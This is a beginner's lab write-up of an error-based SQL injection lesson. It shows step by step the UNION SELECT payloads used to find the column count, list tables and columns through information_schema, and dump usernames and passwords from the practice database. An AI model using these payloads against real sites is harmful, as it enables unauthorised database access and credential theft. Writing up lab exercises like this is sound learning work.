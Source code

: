Hello guys,

This is the first time im doing something related to SQL injection. I have basic knowledge about sql syntax and functions...

This is the write up for Less-1 - " GET-Error Based- Single Quotes - String"


started with a [URL].../Less-1/ page, which instructed me to input the ID as parameter with numeric value.

So I start with adding ```?id=1``` after the URL and got 

```Your Login name:Dumb Your Password:Dumb```

in the page.

and using different numbers after 2, I got different Login names and passwords.

As the name of the Lesson suggests I start with a single quote Error

so I type a single quote ... ```[URL]/?id=1'```
and an error is returned ```You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the 
right syntax to use near ''1'' LIMIT 0,1' at line 1```

So it seemd like ```?id=x```, is going into an sql command like

```SELECT _____ FROM _____ WHERE id = 'x';```

This is because there are odd number of single quotes.

However, I continue by trying to find out the number of columns in the table from which the usernames and passwords are printed from, by adding 

```UNION SELECT 1 -- -```
It returned an error: 

``` The used SELECT statements have a different number of columns ```
so i continued increasing till an error wasnt returned at:

```[URL]/?id=1' UNION SELECT 1,2,3 -- -```

However from here on I continued by using a wrong number after id so that the output of my following code can come instead, i proceeded with ```?id=-1```

I proceded by using, ```UNION SELECT 1, group_concat(table_name),3 FROM information_schema.tables WHERE table_schema=database() -- -```
and  ```Your Login name:emails,referers,uagents,users
        Your Password:3``` was returned so there were 4 tables called emails,referers,uagents and users. It was obvious users had the data of the login information.

so I change the command to 

``` UNION SELECT 1, group_concat(column_name),3 from information_schema.columns WHERE table_name = 'users'-- -```
and ```Your Login name:id,username,password``` was updated
So, the table users had 3 columnns called 'id,username,password'

Therefore to get a dump of this table I finally used,

```UNION SELECT 1, group_concat(username,0x7c,password),3 FROM users-- -```

And the username and password dump was finally printed!!!!

```Your Login name:Dumb|Dumb,Angelina|I-kill-you,Dummy|p@ssword,secure|crappy,stupid|stupidity,superman|genious,batman|mob!le,admin|admin,admin1|admin1,admin2|admin2,admin3|admin3,dhakkan|dumbo,admin4|admin4
Your Password:3
```


references:

-https://www.sqlinjection.net/numeric-parameters/

-https://portswigger.net/web-security/sql-injection/union-attacks

-https://noobsec.net/sqli-cheatsheet/#Database-Contents


